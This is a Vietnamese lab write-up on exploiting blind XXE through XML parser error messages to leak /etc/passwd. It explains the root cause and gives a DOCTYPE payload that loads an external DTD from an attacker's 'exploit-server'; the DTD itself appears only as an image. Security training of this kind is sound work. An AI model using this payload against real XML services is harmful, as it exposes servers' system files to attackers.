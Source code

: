 ![image.png](Images/image%2015.png)

# **Lab6: Exploiting blind XXE to retrieve data via error messages**

Một cách tiếp cận khác để khai thác Blind XXE là kích hoạt XML parsing error, trong thông báo lỗi chứa các dữ liệu quan trọng. Để hoàn thành lab cần sử dụng external DTD để kích hoạt thông báo lỗi hiển thị nội dung của tệp /etc/passwd

## Root Cause:

XML Parser đã có tắt tính năng xử lý External Entities những vẫn cho phép Parameter Entity 

Server không có cơ chế chặn lỗi chi tiết, khiến thông tin từ hệ thống có thể bị rò rỉ qua error message.

## Cách khai thác:

Go to exploit server, sửa Body thành:

![image.png](Images/image%2016.png)

Khi thực hiện request sẽ xảy ra lỗi vì lmaoo không tồn tại nhưng vẫn lấy được /etc/passwd từ thực thể file

Request payload: <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "exploit-server"> %xxe; ]>
